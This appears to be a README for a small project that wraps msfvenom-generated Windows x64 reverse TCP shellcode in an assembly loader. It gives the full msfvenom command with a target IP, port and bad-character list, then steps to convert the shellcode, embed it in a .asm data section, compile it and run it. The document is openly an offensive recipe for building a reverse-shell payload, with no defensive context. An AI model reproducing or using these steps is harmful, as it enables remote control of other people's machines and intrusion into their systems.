 # Assembler, Shellcode Loader (reverse TCP)

## 1. Create your payload

ex with : ```msfvenom -p windows/x64/shell_reverse_tcp RHOST=192.168.245.132 LPORT=4444 -b '\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40' -f c > shellnew ```

## 2. Convert your shellcode

Use this [converter](./convert.sh)


## 3. Put your shellcode in your .asm code

```
.data
  shellcode DB XXXh,XXXh,XXh,..
                ....
                ....
                ....
endshellcode DB 0
```

See this example of [ASM File](./example.asm)

## 4. Compile your ASM

On windows you can use this compiler [script](./cimpiler.bat)

## 5. Run
